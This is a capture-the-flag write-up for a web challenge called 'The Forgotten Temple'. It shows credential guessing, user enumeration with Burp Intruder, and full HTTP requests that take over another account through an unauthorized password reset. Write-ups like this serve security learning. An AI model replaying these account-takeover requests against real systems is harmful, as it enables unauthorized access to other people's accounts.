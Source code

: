 ![](../img/The_Forgotten_Temple_Login_Form.png)

Clicking "The Scroll of Gods" button we download a txt file called usernames.txt

And maybe have a password: deathgod123




In page source:
```html
       <!-- Right section: Login + Password Reset (for Anubis) -->
        <div class="form-section">
            <!-- LOGIN FORM -->
                <form method="POST">
                    <label>Username:</label>
                    <input type="text" name="username" required><br>
                    <label>Password:</label>
                    <input type="password" name="password" required><br>
                    <button type="submit">Enter the Temple</button>
                </form>
        </div>
    </div>
    <script>
        document.getElementById("resetForm")?.addEventListener("submit", function(event) {
            event.preventDefault();
            let username = document.getElementById("resetUsername").value;
            let newPassword = document.getElementById("newPassword").value;

            fetch("/reset-password", {
                method: "POST",
                headers: { "Content-Type": "application/x-www-form-urlencoded" },
                body: `username=${username}&new_password=${newPassword}`
            })
            .then(response => response.json())
            .then(data => {
                document.getElementById("resetMessage").innerText = data.message;
                if (data.success) {
                    document.getElementById("resetForm").classList.add("hidden");
                }
            });
        });
    </script>
```


Successful login:
Anubis:deathgod123

![](../img/The_Forgotten_Temple_Reset_Pw.png)



Request for resetting the password.
```
POST /reset-password HTTP/1.1
Host: 207.154.240.240:43243
Content-Length: 39
Accept-Language: en-GB,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: http://207.154.240.240:43243
Referer: http://207.154.240.240:43243/
Accept-Encoding: gzip, deflate, br
Cookie: session=eyJ1c2VyIjoiQW51YmlzIn0.aBOVNA.Qt4TfAY7Nz8RgY9J0fba_QaP4tE
Connection: keep-alive

username=Anubis&new_password=New_anubis
```

This changes the password for the Anubis user.

Let's use the intruder to find the "true ruler".

Anubis and Khonsu gives this error of "Incorrect password" so this to account could be targeted. But the comment only mentions Anubis to login for reseting password. Let's try to reset the password with our second found user (Khonsu).

![](../img/The_Forgotten_Temple_Intruder.png)

```
<!-- Right section: Login + Password Reset (for Anubis) -->
    <div class="form-section">        
    <p style="color: red;">Incorrect password</p>
```


```http
POST /reset-password HTTP/1.1
Host: 207.154.240.240:43243
Content-Length: 39
Accept-Language: en-GB,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: http://207.154.240.240:43243
Referer: http://207.154.240.240:43243/
Accept-Encoding: gzip, deflate, br
Cookie: session=eyJ1c2VyIjoiQW51YmlzIn0.aBOVNA.Qt4TfAY7Nz8RgY9J0fba_QaP4tE
Connection: keep-alive

username=Khonsu&new_password=pwned123
```

```http
HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.9.21
Date: Thu, 01 May 2025 15:42:46 GMT
Content-Type: application/json
Content-Length: 58
Connection: close

{"message":"Password successfully reset!","success":true}
```

By using a cookie we can change the password for "Khonsu". So the cookie isn't tied to a user session.

![](../img/The_Forgotten_Temple_Solved.png)

Flag: O24{73mp13_53cr37s_Unv31l3d}

